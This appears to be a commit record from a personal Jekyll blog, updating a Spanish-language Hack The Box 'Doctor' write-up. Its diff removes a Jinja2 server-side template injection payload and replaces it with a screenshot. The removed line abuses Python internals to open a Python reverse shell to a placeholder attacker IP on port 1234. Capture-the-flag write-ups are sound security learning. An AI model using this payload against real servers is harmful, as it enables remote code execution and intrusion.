

Before and after one commit to fredisanmar/fredisanmar.github.io, a Jekyll site: the page built from _posts/2021-06-02-Doctor-HTB.md, in a window 1280 px wide and 900 px high, scrolled down 3108 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
writeup-doctor

```diff
--- a/_posts/2021-06-02-Doctor-HTB.md
+++ b/_posts/2021-06-02-Doctor-HTB.md
@@ -88,8 +88,7 @@ En este caso el payload va a ser una reverse shell en python, ya que el backend
 
 En este caso nuestro payload sera el siguiente:
 
-
-        [{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<tuIP>\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\"]);'").read().zfill(417)}}{%endif%}{% endfor %}]
+![Doctor-payload-ssti](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-payload-ssti.png)
 
 
 
```
Also changed, not shown: assets/imagenes/2021-02-06-doctor-HTB/Doctor-payload-ssti.png (added).
